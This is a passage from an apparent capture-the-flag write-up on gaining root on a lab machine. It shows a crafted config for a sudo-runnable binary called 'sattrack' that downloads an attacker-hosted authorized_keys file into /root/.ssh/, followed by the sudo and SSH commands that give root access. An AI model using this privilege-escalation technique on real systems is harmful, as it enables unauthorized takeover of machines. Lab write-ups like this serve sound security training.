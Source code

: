 After decompilation using Ghidra, it's apparent that **sattrack** looks for a hardcoded file:

```c
local_2a8[0] = "/tmp/config.json";
```

**We can upload authorized_keys to gain SSH access:**

```
"tleroot": "/root/.ssh/",
"tlefile": "weather.txt",
"mapfile": "/usr/local/share/sattrack/map.json",
"texturefile": "/usr/local/share/sattrack/earth.png",

"tlesources": [
        "http://10.10.14.144:8000/weather.txt",
        "http://10.10.14.144:8000/noaa.txt",
        "http://10.10.14.144:8000/authorized_keys"
],
```

**Then:** `sudo /usr/local/bin/sattrack`

**And:** `ssh root@10.10.11.216 -i id_rsa`

`root.txt: <redacted>`
